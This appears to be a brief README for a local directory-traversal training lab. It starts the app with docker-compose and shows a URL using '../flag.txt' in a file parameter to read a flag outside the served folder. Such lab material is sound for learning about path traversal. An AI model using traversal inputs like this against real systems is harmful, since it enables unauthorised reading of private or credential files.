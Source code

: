 ## Directory Traversal

```sh
$ docker-compose up -d
```

open `http://localhost:9001/directory_traversal/?file=template2.html`

### open flag
`http://localhost:9001/directory_traversal/?file=../flag.txt`

